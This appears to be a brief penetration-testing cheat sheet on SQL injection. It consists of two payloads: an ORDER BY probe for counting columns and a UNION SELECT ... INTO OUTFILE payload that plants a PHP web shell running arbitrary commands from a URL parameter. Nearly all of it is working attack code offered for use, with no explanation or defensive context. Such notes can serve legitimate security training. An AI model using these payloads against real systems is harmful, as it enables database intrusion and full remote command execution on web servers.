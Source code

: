 Enumerate no. of columns for `UNION`-based payload:
```sql
' ORDER BY <Column no. to test>-- //
```

Inject webshell into PHP site via `UNION`:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```